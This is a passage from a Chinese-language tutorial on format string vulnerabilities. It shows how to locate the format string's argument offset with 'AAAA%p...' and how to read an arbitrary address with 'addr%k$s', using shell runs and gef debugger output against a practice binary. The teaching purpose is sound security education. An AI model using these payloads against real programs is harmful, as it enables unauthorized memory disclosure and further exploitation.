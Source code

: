 可以看出在栈上的第二个变量就是我们的格式化字符串地址0xffffcd10，同时该地址存储的也确实是是"%s"格式化字符串内容。

那么由于我们可以控制该格式化字符串，如果我们知道该格式化字符串在输出函数调用时是第几个参数，这里假设该格式化字符串相对函数调用为第k个参数。那我们就可以通过如下的方式来获取某个指定地址addr的内容。

```
addr%k$s
```

> 注： 在这里，如果格式化字符串在栈上，那么我们就一定确定格式化字符串的相对偏移，这是因为在函数调用的时候栈指针至少低于格式化字符串地址8字节或者16字节。

下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定

```text
[tag]%p%p%p%p%p%p...
```

一般来说，我们会重复某个字符的机器字长来作为tag，而后面会跟上若干个%p来输出栈上的内容，如果内容与我们前面的tag重复了，那么我们就可以有很大把握说明该地址就是格式化字符串的地址，之所以说是有很大把握，这是因为不排除栈上有一些临时变量也是该数值。一般情况下，极其少见，我们也可以更换其他字符进行尝试，进行再次确认。这里我们利用字符'A'作为特定字符，同时还是利用之前编译好的程序，如下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
00000001.22222222.ffffffff.AAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAA0xffaab1600xc20xf76146bb0x414141410x702570250x702570250x702570250x702570250x702570250x702570250x702570250x70250xffaab2240xf77360000xaec7% 
```

由0x41414141处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第5个参数，但是是格式化字符串的第4个参数。我们可以来测试一下

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%4$s
00000001.22222222.ffffffff.%4$s
[1]    61439 segmentation fault (core dumped)  ./leakmemory
```

可以看出，我们的程序崩溃了，为什么呢？这是因为我们试图将该格式化字符串所对应的值作为地址进行解析，但是显然该值没有办法作为一个合法的地址被解析，，所以程序就崩溃了。具体的可以参考下面的调试。

```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
───────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd10│+0x04: 0xffffcd20  →  "%4$s"
0xffffcd14│+0x08: 0xffffcd20  →  "%4$s"
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: "%4$s"	 ← $eax
0xffffcd24│+0x18: 0xffffce00  →  0x00000000
0xffffcd28│+0x1c: 0x000000e0
───────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0xf7e44670 → Name: __printf(format=0xffffcd20 "%4$s")
[#1] 0x80484ce → Name: main()
────────────────────────────────────────────────────────────────────────────────
gef➤  help x/
Examine memory: x/FMT ADDRESS.
ADDRESS is an expression for the memory address to examine.
FMT is a repeat count followed by a format letter and a size letter.
Format letters are o(octal), x(hex), d(decimal), u(unsigned decimal),
  t(binary), f(float), a(address), i(instruction), c(char), s(string)
  and z(hex, zero padded on the left).
Size letters are b(byte), h(halfword), w(word), g(giant, 8 bytes).
The specified number of objects of the specified size are printed
according to the format.
```